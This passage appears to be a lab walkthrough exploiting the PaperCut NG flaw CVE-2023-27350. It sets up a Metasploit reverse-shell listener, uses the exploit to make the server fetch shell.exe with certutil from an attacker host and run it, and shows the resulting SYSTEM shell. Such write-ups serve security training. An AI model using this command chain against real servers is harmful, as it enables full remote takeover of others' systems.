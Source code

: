 configure listener for new terminal window
```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/shell/reverse_tcp; set LHOST 10.10.69.242; set LPORT 4444; exploit"
```

Now that we have everything configured, we are ready to go. We will execute two commands using the Python exploit. The first command will download our executable, and the second will execute it. In a new terminal window, we will use **Certutil** to download our shell:

```
python3 CVE-2023-27350.py -u http://10.10.69.251:9191 -c "certutil.exe -urlcache -f http://10.10.69.242:8080/shell.exe shell.exe"
```

You should see a download request in your Python HTTP Server. Next, we can use cmd to execute our shell:
```
python3 CVE-2023-27350.py -u http://10.10.69.251:9191 -c "cmd.exe /c shell.exe"
```

we're in!
```
Shell Banner:
Microsoft Windows [Version 10.0.17763.1821]
-----
C:\Program Files\PaperCut NG\server>

dir
Directory of C:\Program Files\PaperCut NG\server

02/14/2025  06:58 PM    <DIR>          .
02/14/2025  06:58 PM    <DIR>          ..
07/19/2023  01:47 PM    <DIR>          bin
07/19/2023  01:47 PM    <DIR>          custom
07/19/2023  01:50 PM    <DIR>          data
07/19/2023  01:47 PM    <DIR>          examples
07/19/2023  01:47 PM    <DIR>          lib
07/19/2023  01:47 PM    <DIR>          lib-ext
02/14/2025  06:33 PM    <DIR>          logs
07/19/2023  01:55 PM            10,665 server.properties
05/16/2019  04:14 AM            10,607 server.properties.template
07/19/2023  01:49 PM               107 server.uuid
02/14/2025  06:58 PM            73,802 shell.exe
05/16/2019  04:14 AM             1,141 site-server.properties.template
02/14/2025  06:35 PM    <DIR>          tmp
05/16/2019  04:14 AM               163 version.txt
               6 File(s)         96,485 bytes
              10 Dir(s)  12,668,915,712 bytes free

```

As the PaperCut service runs as **SYSTEM**, there isn’t even a need to perform privilege escalation! We now have the highest level of control over this server.
